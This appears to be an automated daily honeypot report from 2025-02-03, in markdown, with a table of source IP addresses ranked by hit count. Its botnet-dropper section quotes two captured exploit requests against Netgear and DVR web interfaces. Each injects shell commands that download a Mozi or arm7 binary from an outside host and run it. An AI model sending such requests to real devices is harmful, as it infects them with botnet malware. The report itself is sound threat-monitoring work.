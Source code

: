 ```yaml
---
title: "Report: 2025-02-03 "
date: 2025-02-03
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-03
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                                      |
|---:|:---------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 196.189.25.240 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://196.189.25.240:40400/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                |
|  1 | 141.255.166.90 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    67 | 141.255.166.90  |
|   1 |                    40 | 92.255.57.58    |
|   2 |                    40 | 149.129.248.252 |
|   3 |                    32 | 78.153.140.93   |
|   4 |                    20 | 45.148.10.242   |
|   5 |                    17 | 138.68.73.183   |
|   6 |                    17 | 68.183.208.63   |
|   7 |                    16 | 80.82.77.202    |
|   8 |                    16 | 87.121.84.7     |
|   9 |                    16 | 179.43.191.146  |
|  10 |                    16 | 134.122.72.149  |
|  11 |                    14 | 18.222.36.242   |
|  12 |                    12 | 161.35.113.177  |
|  13 |                    12 | 204.188.228.102 |
|  14 |                    11 | 37.10.114.9     |
|  15 |                    11 | 45.156.130.40   |
|  16 |                    11 | 165.227.30.35   |
|  17 |                    11 | 195.3.223.55    |
|  18 |                    11 | 45.144.212.139  |
|  19 |                    11 | 159.203.98.4    |